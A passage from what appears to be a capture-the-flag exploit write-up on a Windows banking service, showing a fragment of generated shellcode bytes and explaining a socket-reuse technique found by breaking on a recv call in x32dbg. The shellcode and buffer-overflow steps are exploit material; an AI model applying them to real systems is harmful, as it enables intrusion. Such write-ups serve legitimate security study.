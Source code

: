     buf += b"\xde\x8d\x96\x48\x98\x91\xf2\x3e\x44\x23\xab\x06\x7b"
    buf += b"\x8c\x3b\x8f\x04\xf0\xdb\x70\xdf\xb0\xec\x3a\x7d\x90"
    buf += b"\x64\xe3\x14\xa0\xe8\x14\xc3\xe7\x14\x97\xe1\x97\xe2"
    buf += b"\x87\x80\x92\xaf\x0f\x79\xef\xa0\xe5\x7d\x5c\xc0\x2f"



It can be done with less, but 66 seems impossible.

#### Socket Reuse - Fetch Descriptor

Rastating has a good writeup on [Socket
Reuse](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/),
which I'll basically follow here.

The program already has an open socket with my host, the one that came
from the `accept` call and is being used to run the banking program. If
I can get the socket descriptor, I can make a call to socket to read
more data from it into a buffer of my choosing.

In x32dbg, I'll put a break point at the `recv` call that gets the code
just before the call to `_SaveCreds`:



          recv(sock,recv_buf,0x400,0);
          _memset(code,0,0x50);
          _strncpy(code,recv_buf,0x50);
          _SaveCreds(code,fullname);



That address is 0x71901d79:

![](/img/image-20220204064559504.png)

`recv` has the following
[description](https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-recv):



    int recv(
      [in]  SOCKET s,
      [out] char   *buf,
      [in]  int    len,
      [in]  int    flags
    );

